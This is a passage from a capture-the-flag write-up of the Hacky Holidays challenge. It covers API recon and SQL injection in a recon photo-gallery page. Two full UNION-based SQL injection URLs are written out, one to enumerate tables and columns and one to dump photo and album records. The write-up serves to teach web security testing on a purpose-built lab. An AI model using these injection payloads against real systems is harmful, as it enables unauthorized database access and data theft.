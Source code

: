There was a lot going on here. First of all the presence of an API was mentioned at the top of the page. Then there was a list of recon photo albums, each containing one or more photos. Additionally, a link to an "attack box" was included that resulted in a login page.

### API

Since the comment mentioned an API, I tried [/r3c0n_server_4fdk59/api](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api) and found a page about API response codes.

![api docs](/assets/2021-01-07-hacky-holidays/flag11.b.png)

I tried fuzzing the `/r3c0n_server_4fdk59/api` path for endpoints, but all requests resulted in a 401 status code. The docs note that a 401 means `Unauthenticated Request or Invalid client IP` in this context. So I either needed to bolt on an `Authorization` header to our requests, or I needed to make the requests from a particular location, likely `localhost`.

### Recon Gallery

I tried messing with the parameters of each gallery script, and found that adding `' or '1'='2` to the end of the `/r3c0n_server_4fdk59/album?hash=jdh34k` URL was successful, and it looked vulnerable to SQL injection.

After some manual fiddling, I ascertained that there were two tables, but sadly no sensitive data available. 

I used the following to dump the tables and columns:

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=asdasd%27%20UNION%20ALL%20SELECT%201,%27BLAH%27,group_concat(concat(table_name,%27:%27,column_name))%20from%20information_schema.columns%20WHERE%20table_schema=%27recon%27;/*
```

Here's an example of most of the database content being dumped:

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=asdasd%27%20UNION%20ALL%20SELECT%201,%27BLAH%27,group_concat(concat(%27\n\nPhoto%20ID:%20%27,%20photo.id,%27%20\nPhoto:%27,photo,%27%20%20\nAlbum%20hash:%20%27,%20hash,%27\nAlbum%20ID:%20%27,album.id))%20from%20photo%20LEFT%20JOIN%20album%20on%20album.id%3dphoto.album_id%20limit%201;/*
```
